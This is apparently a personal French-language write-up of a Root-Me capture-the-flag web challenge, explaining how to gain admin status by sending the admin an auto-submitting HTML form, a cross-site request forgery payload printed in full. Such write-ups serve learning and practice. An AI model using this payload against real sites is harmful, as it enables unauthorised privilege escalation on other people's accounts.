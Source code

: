 ```yaml
---
categorie: web-client
tags:
  - rootme
  - "#informatique/cyber"
lien:
---
```

# But

Il faut passer admin sur un site

# Fourni

un site avec un login et un register, on fait un compte et ensuite on voit qu'on est pas admin

on voit qu'on ne peux pas valider son propre compte et qu'il faut un admin le fasse

# Méthode de résolution


sur la partie contact, on peut envoyer un mail a l'admin, en envoyant un formulaire en html qui est notre page validé, avec un script qui exécute le formulaire, on penssera à changer la partie checkbox, `disabled` -> `checked`, `action=profile"` -> `http://challenge01.root-me.org/web-client/ch22/index.php?action=profile


```
<form action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile"
<div class="form-group">
<label>Username:</label>
<input type="text" name="username" value="t">
</div>
<br>		
<div class="form-group">
<label>Status:</label>
<input type="checkbox" name="status" checked >
</div>
<br>	
<button type="submit">Submit</button>
<script>+document.forms[0].submit();</script>
```

on l'envoit, et on récupère le flag sur la page private : 

![[Pasted image 20250312104556.png]]

